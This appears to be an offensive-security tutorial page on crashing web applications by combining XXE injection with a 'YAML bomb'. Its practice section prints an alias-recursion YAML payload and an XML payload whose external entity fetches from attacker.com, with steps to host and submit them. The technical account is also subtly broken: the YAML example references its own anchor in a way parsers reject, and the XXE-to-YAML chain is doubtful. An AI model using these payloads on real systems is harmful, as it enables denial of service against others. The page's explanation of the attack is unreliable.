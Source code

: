 ```yaml
---
title: Understanding YAML Attack Exploitation
description: Explore YAML attack techniques in XXE for DOS, leveraging YAML bombs
  and alias recursion.
keywords:
- YAML attack
- XXE injection
- denial of service
- YAML bomb
- alias expansion
- infinite recursion
- YAML parsing
- cybersecurity
- web application security
---
```


# YAML Attack

## Context

This article demonstrates how to exploit YAML parsing in web applications via XML External Entity (XXE) injections to trigger a denial of service using YAML bombs. Prior knowledge required includes an understanding of YAML structure and syntax, the operation of XML External Entities (XXE), and general denial of service (DoS) attack mechanisms.

## Theory

### YAML Bombs and Alias Expansion

A YAML bomb is a malicious payload crafted to exploit alias expansion, resulting in resource exhaustion. YAML supports anchors (`&`) and aliases (`*`), which allow references and recursive structures. The vulnerability here lies in unrestricted alias expansion, which can cause exponential growth in memory usage during parsing. In this attack scenario, an attacker injects a YAML bomb payload into a system, causing the parser to recursively expand aliases and consequently exhaust system resources.

### Infinite Recursion in YAML Parsing

Infinite recursion occurs when YAML aliases reference one another in a loop, causing the parser to hang or crash. This issue arises because many YAML parsers do not enforce limits on recursion or alias expansion by default. The weakness is prevalent when YAML’s flexible referencing is not controlled via input sanitization or by setting parser constraints.

### Attack Surface: XXE to YAML Parsing

In this attack sequence, an attacker crafts an XML document with an external entity that references a YAML bomb. The application's parser processes the YAML, leading to a denial of service. Here is the data flow broken down:

1. The XML input is submitted.
2. An XXE is resolved to fetch an external YAML bomb.
3. The application parses the YAML, expands the aliases, and eventually exhausts resources.

#### Flowchart

```mermaid
flowchart TD
    A[Attacker crafts XML with XXE] --> B[XXE fetches YAML bomb]
    B --> C[Application parses YAML]
    C --> D[YAML parser expands aliases]
    D --> E[Resource exhaustion/DoS]
```

## Practice

### Injecting a YAML Bomb via XXE to Cause Denial of Service

- **Craft a Malicious YAML Bomb Payload**: First, create a YAML bomb using recursive aliases. This payload will initiate exponential growth during parsing. 

    Example:
    ```yaml
    &a ["YAML", *a, *a, *a, *a, *a, *a, *a, *a, *a, *a]
    ```

- **Host the YAML Bomb**: Ensure the YAML bomb is accessible to the target application by hosting it on a server.

- **Craft the XML Payload with XXE**: Create an XML document that includes an XXE to reference the hosted YAML bomb.

    Example:
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://attacker.com/yaml_bomb.yaml">
    ]>
    <root>&xxe;</root>
    ```

- **Submit XML Payload**: Send the crafted XML to the vulnerable web application’s XML input endpoint.

- **Monitor Application**: Observe for heightened resource usage or application crashes, which indicate a successful denial of service.

### Outcome

The successful execution of this attack results in the target application becoming unresponsive or crashing due to excessive resource usage by the YAML parser.

## Tools

- **curl**
- **Burp Suite**
- **Python SimpleHTTPServer**